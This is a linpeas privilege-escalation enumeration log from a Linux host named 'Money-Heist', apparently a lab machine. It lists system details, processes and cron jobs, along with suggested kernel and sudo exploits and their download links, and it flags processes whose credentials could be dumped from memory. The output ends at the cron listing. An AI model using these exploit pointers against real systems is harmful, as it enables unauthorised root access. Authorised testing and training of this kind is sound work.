         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
         ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
         ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
         ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
         ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
         ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
         ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
         ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
         ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
          ▀▀▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▀▀▀▀▀▀
               ▀▀▀▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▀▀
                     ▀▀▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▀▀▀

    /---------------------------------------------------------------------------------\
    |                             Do you like PEASS?                                  |                                                                       
    |---------------------------------------------------------------------------------|                                                                       
    |         Follow on Twitter         :     @hacktricks_live                        |                                                                       
    |         Respect on HTB            :     SirBroccoli                             |                                                                       
    |---------------------------------------------------------------------------------|                                                                       
    |                                 Thank you!                                      |                                                                       
    \---------------------------------------------------------------------------------/                                                                       
          linpeas-ng by github.com/PEASS-ng                                                                                                                   
                                                                                                                                                              
ADVISORY: This script should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own computers and/or with the computer owner's permission.                                  
                                                                                                                                                              
Linux Privesc Checklist: https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist
 LEGEND:                                                                                                                                                      
  RED/YELLOW: 95% a PE vector
  RED: You should take a look to it
  LightCyan: Users with console
  Blue: Users without console & mounted devs
  Green: Common things (users, groups, SUID/SGID, mounts, .sh scripts, cronjobs) 
  LightMagenta: Your username

 Starting linpeas. Caching Writable Folders...

                               ╔═══════════════════╗
═══════════════════════════════╣ Basic information ╠═══════════════════════════════                                                                                                         
                               ╚═══════════════════╝                                                                                                                                        
OS: Linux version 4.4.0-186-generic (buildd@lcy01-amd64-002) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.12) ) #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020
User & Groups: uid=1002(arturo) gid=1002(arturo) groups=1002(arturo)
Hostname: Money-Heist
Writable folder: /dev/shm
[+] /bin/ping is available for network discovery (linpeas can discover hosts, learn more with -h)
[+] /bin/bash is available for network discovery, port scanning and port forwarding (linpeas can discover hosts, scan ports, and forward ports. Learn more with -h)                         
[+] /bin/nc is available for network discovery & port scanning (linpeas can discover hosts and scan ports, learn more with -h)                                                              
                                                                                                                                                                                            
                                                                                                                                                                                            

Caching directories . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . DONE
                                                                                                                                                                                            
                              ╔════════════════════╗
══════════════════════════════╣ System Information ╠══════════════════════════════                                                                                                          
                              ╚════════════════════╝                                                                                                                                        
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits                                                                                                          
Linux version 4.4.0-186-generic (buildd@lcy01-amd64-002) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.12) ) #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020                         
Distributor ID: Ubuntu
Description:    Ubuntu 16.04.7 LTS
Release:        16.04
Codename:       xenial

╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                                                                                                             
Sudo version 1.8.16                                                                                                                                                                         


╔══════════╣ PATH
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses                                                                                                     
/home/arturo/bin:/home/arturo/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin                                                 

╔══════════╣ Date & uptime
Thu Apr  3 02:30:12 IST 2025                                                                                                                                                                
 02:30:12 up  3:56,  2 users,  load average: 1.47, 0.34, 0.11

╔══════════╣ Any sd*/disk* disk in /dev? (limit 20)
disk                                                                                                                                                                                        
sda
sda1
sda2
sda5

╔══════════╣ Unmounted file-system?
╚ Check if you can mount umounted devices                                                                                                                                                   
UUID=e358e2ae-bbf7-4a1a-b668-1c2d85a78d55 /               ext4    errors=remount-ro 0       1                                                                                               
UUID=1e02d8f8-3663-49d8-a527-8d702fe09e08 none            swap    sw              0       0

╔══════════╣ Environment
╚ Any private information inside environment variables?                                                                                                                                     
LESSOPEN=| /usr/bin/lesspipe %s                                                                                                                                                             
HISTFILESIZE=0
MAIL=/var/mail/arturo
SSH_CLIENT=192.168.56.52 47374 55001
USER=arturo
LANGUAGE=en_IN:en
SHLVL=1
HOME=/home/arturo
OLDPWD=/home
SSH_TTY=/dev/pts/0
LOGNAME=arturo
_=./linpeas.sh
XDG_SESSION_ID=5
TERM=xterm-256color
PATH=/home/arturo/bin:/home/arturo/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
XDG_RUNTIME_DIR=/run/user/1002
LANG=en_IN
HISTSIZE=0
LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc=01;31:*.arj=01;31:*.taz=01;31:*.lha=01;31:*.lz4=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.tzo=01;31:*.t7z=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lrz=01;31:*.lz=01;31:*.lzo=01;31:*.xz=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.alz=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.cab=01;31:*.jpg=01;35:*.jpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:
SHELL=/bin/bash
LESSCLOSE=/usr/bin/lesspipe %s %s
PWD=/tmp
XDG_DATA_DIRS=/usr/local/share:/usr/share:/var/lib/snapd/desktop
SSH_CONNECTION=192.168.56.52 47374 192.168.56.120 55001
HISTFILE=/dev/null

╔══════════╣ Searching Signature verification failed in dmesg
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#dmesg-signature-verification-failed                                                                                      
dmesg Not Found                                                                                                                                                                             
                                                                                                                                                                                            
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester                                                                                                                                          
[+] [CVE-2017-16995] eBPF_verifier                                                                                                                                                          

   Details: https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
   Exposure: highly probable
   Tags: debian=9.0{kernel:4.9.0-3-amd64},fedora=25|26|27,ubuntu=14.04{kernel:4.4.0-89-generic},[ ubuntu=(16.04|17.04) ]{kernel:4.(8|10).0-(19|28|45)-generic}
   Download URL: https://www.exploit-db.com/download/45010
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1

[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},[ ubuntu=16.04|14.04|12.04 ]
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,ubuntu=14.04|12.04,ubuntu=10.04{kernel:2.6.32-21-generic},[ ubuntu=16.04 ]{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2017-7308] af_packet

   Details: https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html
   Exposure: probable
   Tags: [ ubuntu=16.04 ]{kernel:4.8.0-(34|36|39|41|42|44|45)-generic}
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-7308/poc.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2017-7308/poc.c
   Comments: CAP_NET_RAW cap or CONFIG_USER_NS=y needed. Modified version at 'ext-url' adds support for additional kernels

[+] [CVE-2017-6074] dccp

   Details: http://www.openwall.com/lists/oss-security/2017/02/22/3
   Exposure: probable
   Tags: [ ubuntu=(14.04|16.04) ]{kernel:4.4.0-62-generic}
   Download URL: https://www.exploit-db.com/download/41458
   Comments: Requires Kernel be built with CONFIG_IP_DCCP enabled. Includes partial SMEP/SMAP bypass

[+] [CVE-2017-1000112] NETIF_F_UFO

   Details: http://www.openwall.com/lists/oss-security/2017/08/13/1
   Exposure: probable
   Tags: ubuntu=14.04{kernel:4.4.0-*},[ ubuntu=16.04 ]{kernel:4.8.0-*}
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-1000112/poc.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2017-1000112/poc.c
   Comments: CAP_NET_ADMIN cap or CONFIG_USER_NS=y needed. SMEP/KASLR bypass included. Modified version at 'ext-url' adds support for additional distros/kernels

[+] [CVE-2016-8655] chocobo_root

   Details: http://www.openwall.com/lists/oss-security/2016/12/06/1
   Exposure: probable
   Tags: [ ubuntu=(14.04|16.04) ]{kernel:4.4.0-(21|22|24|28|31|34|36|38|42|43|45|47|51)-generic}
   Download URL: https://www.exploit-db.com/download/40871
   Comments: CAP_NET_RAW capability is needed OR CONFIG_USER_NS=y needs to be enabled

[+] [CVE-2016-4557] double-fdput()

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=808
   Exposure: probable
   Tags: [ ubuntu=16.04 ]{kernel:4.4.0-21-generic}
   Download URL: https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1

[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)

   Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
   Exposure: less probable
   Tags: ubuntu=(22.04){kernel:5.15.0-27-generic}
   Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2022-2586] nft_object UAF

   Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
   Exposure: less probable
   Tags: ubuntu=(20.04){kernel:5.12.13}
   Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: less probable
   Tags: mint=19,ubuntu=18|20, debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: less probable
   Tags: ubuntu=20.04{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2019-18634] sudo pwfeedback

   Details: https://dylankatz.com/Analysis-of-CVE-2019-18634/
   Exposure: less probable
   Tags: mint=19
   Download URL: https://github.com/saleemrashid/sudo-cve-2019-18634/raw/master/exploit.c
   Comments: sudo configuration requires pwfeedback to be enabled.

[+] [CVE-2019-15666] XFRM_UAF

   Details: https://duasynt.com/blog/ubuntu-centos-redhat-privesc
   Exposure: less probable
   Download URL: 
   Comments: CONFIG_USER_NS needs to be enabled; CONFIG_XFRM needs to be enabled

[+] [CVE-2018-1000001] RationalLove

   Details: https://www.halfdog.net/Security/2017/LibcRealpathBufferUnderflow/
   Exposure: less probable
   Tags: debian=9{libc6:2.24-11+deb9u1},ubuntu=16.04.3{libc6:2.23-0ubuntu9}
   Download URL: https://www.halfdog.net/Security/2017/LibcRealpathBufferUnderflow/RationalLove.c
   Comments: kernel.unprivileged_userns_clone=1 required

[+] [CVE-2017-5618] setuid screen v4.5.0 LPE

   Details: https://seclists.org/oss-sec/2017/q1/184
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154

[+] [CVE-2017-1000366,CVE-2017-1000379] linux_ldso_hwcap_64

   Details: https://www.qualys.com/2017/06/19/stack-clash/stack-clash.txt
   Exposure: less probable
   Tags: debian=7.7|8.5|9.0,ubuntu=14.04.2|16.04.2|17.04,fedora=22|25,centos=7.3.1611
   Download URL: https://www.qualys.com/2017/06/19/stack-clash/linux_ldso_hwcap_64.c
   Comments: Uses "Stack Clash" technique, works against most SUID-root binaries

[+] [CVE-2017-1000253] PIE_stack_corruption

   Details: https://www.qualys.com/2017/09/26/linux-pie-cve-2017-1000253/cve-2017-1000253.txt
   Exposure: less probable
   Tags: RHEL=6,RHEL=7{kernel:3.10.0-514.21.2|3.10.0-514.26.1}
   Download URL: https://www.qualys.com/2017/09/26/linux-pie-cve-2017-1000253/cve-2017-1000253.c

[+] [CVE-2016-9793] SO_{SND|RCV}BUFFORCE

   Details: https://github.com/xairy/kernel-exploits/tree/master/CVE-2016-9793
   Exposure: less probable
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2016-9793/poc.c
   Comments: CAP_NET_ADMIN caps OR CONFIG_USER_NS=y needed. No SMEP/SMAP/KASLR bypass included. Tested in QEMU only

[+] [CVE-2016-2384] usb-midi

   Details: https://xairy.github.io/blog/2016/cve-2016-2384
   Exposure: less probable
   Tags: ubuntu=14.04,fedora=22
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2016-2384/poc.c
   Comments: Requires ability to plug in a malicious USB device and to execute a malicious binary as a non-privileged user

[+] [CVE-2016-0728] keyring

   Details: http://perception-point.io/2016/01/14/analysis-and-exploitation-of-a-linux-kernel-vulnerability-cve-2016-0728/
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/40003
   Comments: Exploit takes about ~30 minutes to run. Exploit is not reliable, see: https://cyseclabs.com/blog/cve-2016-0728-poc-not-working


╔══════════╣ Executing Linux Exploit Suggester 2
╚ https://github.com/jondonas/linux-exploit-suggester-2                                                                                                                                     
  [1] af_packet                                                                                                                                                                             
      CVE-2016-8655
      Source: http://www.exploit-db.com/exploits/40871
  [2] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [3] get_rekt
      CVE-2017-16695
      Source: http://www.exploit-db.com/exploits/45010


╔══════════╣ Protections
═╣ AppArmor enabled? .............. You do not have enough privilege to read the profile set.                                                                                               
apparmor module is loaded.
═╣ AppArmor profile? .............. unconfined
═╣ is linuxONE? ................... s390x Not Found
═╣ grsecurity present? ............ grsecurity Not Found                                                                                                                                    
═╣ PaX bins present? .............. PaX Not Found                                                                                                                                           
═╣ Execshield enabled? ............ Execshield Not Found                                                                                                                                    
═╣ SELinux enabled? ............... sestatus Not Found                                                                                                                                      
═╣ Seccomp enabled? ............... disabled                                                                                                                                                
═╣ User namespace? ................ enabled
═╣ Cgroup2 enabled? ............... disabled
═╣ Is ASLR enabled? ............... Yes
═╣ Printer? ....................... No
═╣ Is this a virtual machine? ..... Yes (oracle)                                                                                                                                            

                                   ╔═══════════╗
═══════════════════════════════════╣ Container ╠═══════════════════════════════════                                                                                                         
                                   ╚═══════════╝                                                                                                                                            
╔══════════╣ Container related tools present (if any):
/usr/bin/lxc                                                                                                                                                                                
╔══════════╣ Am I Containered?
╔══════════╣ Container details                                                                                                                                                              
═╣ Is this a container? ........... No                                                                                                                                                      
═╣ Any running containers? ........ No                                                                                                                                                      
                                                                                                                                                                                            

                                     ╔═══════╗
═════════════════════════════════════╣ Cloud ╠═════════════════════════════════════                                                                                                         
                                     ╚═══════╝                                                                                                                                              
═╣ GCP Virtual Machine? ................. No
═╣ GCP Cloud Funtion? ................... No
═╣ AWS ECS? ............................. No
═╣ AWS EC2? ............................. No
═╣ AWS EC2 Beanstalk? ................... No
═╣ AWS Lambda? .......................... No
═╣ AWS Codebuild? ....................... No
═╣ DO Droplet? .......................... No
═╣ Aliyun ECS? .......................... No
grep: /etc/cloud/cloud.cfg: No such file or directory
═╣ Tencent CVM? .......................... No
═╣ IBM Cloud VM? ........................ No
═╣ Azure VM? ............................ No
═╣ Azure APP? ........................... No

curl: (6) Could not resolve host: metadata.google.internal


                ╔════════════════════════════════════════════════╗
════════════════╣ Processes, Crons, Timers, Services and Sockets ╠════════════════                                                                                                          
                ╚════════════════════════════════════════════════╝                                                                                                                          
╔══════════╣ Cleaned processes
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes                                                                 
root         1  0.0  0.5  37544  5640 ?        Ss   Apr02   0:05 /sbin/init                                                                                                                 
root       332  0.0  0.2  28348  2836 ?        Ss   Apr02   0:01 /lib/systemd/systemd-journald
root       381  0.0  0.1  94768  1532 ?        Ss   Apr02   0:00 /sbin/lvmetad -f
root       399  0.0  0.3  44676  4004 ?        Ss   Apr02   0:00 /lib/systemd/systemd-udevd
systemd+   554  0.0  0.2 100320  2436 ?        Ssl  Apr02   0:02 /lib/systemd/systemd-timesyncd
  └─(Caps) 0x0000000002000000=cap_sys_time
root       725  0.0  0.2  16116  2892 ?        Ss   Apr02   0:00 /sbin/dhclient -1 -v -pf /run/dhclient.enp0s3.pid -lf /var/lib/dhcp/dhclient.enp0s3.leases -I -df /var/lib/dhcp/dhclient6.enp0s3.leases enp0s3
root       798  0.0  0.2  28648  3032 ?        Ss   Apr02   0:00 /lib/systemd/systemd-logind
root       803  0.0  0.1   4392  1276 ?        Ss   Apr02   0:00 /usr/sbin/acpid
root       805  0.0  0.6 275984  6232 ?        Ssl  Apr02   0:02 /usr/lib/accountsservice/accounts-daemon[0m
root       806  0.0  0.2 629264  2320 ?        Ssl  Apr02   0:01 /usr/bin/lxcfs /var/lib/lxcfs/
root       808  0.0  0.2  29004  2740 ?        Ss   Apr02   0:00 /usr/sbin/cron -f
daemon[0m     814  0.0  0.2  26040  2128 ?        Ss   Apr02   0:00 /usr/sbin/atd -f
message+   817  0.0  0.3  42896  3752 ?        Ss   Apr02   0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation
  └─(Caps) 0x0000000020000000=cap_audit_write
syslog     839  0.0  0.3 256388  3156 ?        Ssl  Apr02   0:00 /usr/sbin/rsyslogd -n
root       874  0.0  0.0  13368   160 ?        Ss   Apr02   0:00 /sbin/mdadm --monitor --pid-file /run/mdadm/monitor.pid --daemonise --scan --syslog
root       879  0.0  0.5 277176  5904 ?        Ssl  Apr02   0:00 /usr/lib/policykit-1/polkitd --no-debug
root       955  0.0  1.9 174616 19448 ?        Ssl  Apr02   0:00 /usr/bin/python3 /usr/share/unattended-upgrades/unattended-upgrade-shutdown --wait-for-signal
root       962  0.0  0.2  24044  2356 ?        Ss   Apr02   0:00 /usr/sbin/vsftpd /etc/vsftpd.conf
root       980  0.0  0.0   5216   152 ?        Ss   Apr02   0:04 /sbin/iscsid
root       981  0.1  0.3   5716  3512 ?        S<Ls Apr02   0:17 /sbin/iscsid
root      1013  0.0  0.3  65828  3272 tty1     Ss   Apr02   0:00 /bin/login --
arturo    4226  0.0  0.3  22600  4012 tty1     S+   01:46   0:00  _ -bash
root      1089  0.0  0.5  65508  6040 ?        Ss   Apr02   0:00 /usr/sbin/sshd -D
arturo    4462  0.0  0.4  92828  4308 ?        S    02:05   0:00      _ sshd: arturo@pts/0
arturo    4463  0.0  0.4  22576  4096 pts/0    Ss   02:05   0:00          _ -bash
arturo    4687  0.2  0.2   5440  2664 pts/0    S+   02:29   0:00              _ /bin/sh ./linpeas.sh
arturo    9289  0.0  0.1   5440  1036 pts/0    S+   02:30   0:00                  _ /bin/sh ./linpeas.sh
arturo    9293  0.0  0.3  37504  3436 pts/0    R+   02:30   0:00                  |   _ ps fauxwww
arturo    9292  0.0  0.1   5440  1036 pts/0    S+   02:30   0:00                  _ /bin/sh ./linpeas.sh
root      1148  0.0  0.4  71580  4576 ?        Ss   Apr02   0:03 /usr/sbin/apache2 -k start
www-data  1150  4.8  0.4 558064  4132 ?        Sl   Apr02  11:25  _ /usr/sbin/apache2 -k start
www-data  1151  5.4  0.4 689256  4924 ?        Sl   Apr02  12:44  _ /usr/sbin/apache2 -k start
root      1226  0.0  0.5 240000  5988 ?        Ss   Apr02   0:00 /usr/sbin/nmbd -D
root      1227  0.0  0.7 286708  8060 ?        Ss   Apr02   0:01 /usr/sbin/winbindd
root      1231  0.0  0.8 286840  8920 ?        S    Apr02   0:00  _ /usr/sbin/winbindd
arturo    4217  0.0  0.4  45312  4988 ?        Ss   01:46   0:00 /lib/systemd/systemd --user
arturo    4220  0.0  0.1  60996  1664 ?        S    01:46   0:00  _ (sd-pam)

╔══════════╣ Binary processes permissions (non 'root root' and not belonging to current user)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes                                                                                                                
                                                                                                                                                                                            
╔══════════╣ Processes whose PPID belongs to a different user (not root)
╚ You will know if a user can somehow spawn processes as a different user                                                                                                                   
Proc 554 with ppid 1 is run by user systemd-timesync but the ppid user is root                                                                                                              
Proc 814 with ppid 1 is run by user daemon but the ppid user is root
Proc 817 with ppid 1 is run by user messagebus but the ppid user is root
Proc 839 with ppid 1 is run by user syslog but the ppid user is root
Proc 1150 with ppid 1148 is run by user www-data but the ppid user is root
Proc 1151 with ppid 1148 is run by user www-data but the ppid user is root
Proc 4217 with ppid 1 is run by user arturo but the ppid user is root
Proc 4226 with ppid 1013 is run by user arturo but the ppid user is root
Proc 4462 with ppid 4421 is run by user arturo but the ppid user is root

╔══════════╣ Files opened by processes belonging to other users
╚ This is usually empty because of the lack of privileges to read other user processes information                                                                                          
COMMAND     PID  TID             USER   FD      TYPE             DEVICE SIZE/OFF       NODE NAME                                                                                            

╔══════════╣ Processes with credentials in memory (root req)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#credentials-from-process-memory                                                                                          
gdm-password Not Found                                                                                                                                                                      
gnome-keyring-daemon Not Found                                                                                                                                                              
lightdm Not Found                                                                                                                                                                           
vsftpd process found (dump creds from memory as root)                                                                                                                                       
apache2 process found (dump creds from memory as root)
sshd: process found (dump creds from memory as root)

╔══════════╣ Cron jobs
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs                                                                                                      
/usr/bin/crontab                                                                                                                                                                            
incrontab Not Found
-rw-r--r-- 1 root root     722 Apr  6  2016 /etc/crontab                                                                                                                                    

/etc/cron.d:
total 20
drwxr-xr-x  2 root root 4096 Oct  5  2020 .
drwxr-xr-x 97 root root 4096 Nov 19  2020 ..
-rw-r--r--  1 root root  589 Jul 16  2014 mdadm
-rw-r--r--  1 root root  102 Apr  6  2016 .placeholder
-rw-r--r--  1 root root  189 Oct  5  2020 popularity-contest

/etc/cron.daily:
total 64
drwxr-xr-x  2 root root 4096 Oct  5  2020 .
drwxr-xr-x 97 root root 4096 Nov 19  2020 ..
-rwxr-xr-x  1 root root  539 Jul 15  2020 apache2
-rwxr-xr-x  1 root root  376 Mar 31  2016 apport
-rwxr-xr-x  1 root root 1474 May  7  2019 apt-compat
-rwxr-xr-x  1 root root  355 May 22  2012 bsdmainutils
-rwxr-xr-x  1 root root 1597 Nov 27  2015 dpkg
-rwxr-xr-x  1 root root  372 May  6  2015 logrotate
-rwxr-xr-x  1 root root 1293 Nov  6  2015 man-db
-rwxr-xr-x  1 root root  539 Jul 16  2014 mdadm
-rwxr-xr-x  1 root root  435 Nov 18  2014 mlocate
-rwxr-xr-x  1 root root  249 Nov 13  2015 passwd
-rw-r--r--  1 root root  102 Apr  6  2016 .placeholder
-rwxr-xr-x  1 root root 3449 Feb 27  2016 popularity-contest
-rwxr-xr-x  1 root root  383 Sep 24  2018 samba
-rwxr-xr-x  1 root root  214 Dec  7  2018 update-notifier-common

/etc/cron.hourly:
total 12
drwxr-xr-x  2 root root 4096 Oct  5  2020 .
drwxr-xr-x 97 root root 4096 Nov 19  2020 ..
-rw-r--r--  1 root root  102 Apr  6  2016 .placeholder

/etc/cron.monthly:
total 12
drwxr-xr-x  2 root root 4096 Oct  5  2020 .
drwxr-xr-x 97 root root 4096 Nov 19  2020 ..
-rw-r--r--  1 root root  102 Apr  6  2016 .placeholder

/etc/cron.weekly:
total 24
drwxr-xr-x  2 root root 4096 Oct  5  2020 .
drwxr-xr-x 97 root root 4096 Nov 19  2020 ..
-rwxr-xr-x  1 root root  210 Jan 27  2020 fstrim
-rwxr-xr-x  1 root root  771 Nov  6  2015 man-db
-rw-r--r--  1 root root  102 Apr  6  2016 .placeholder
-rwxr-xr-x  1 root root  211 Dec  7  2018 update-notifier-common

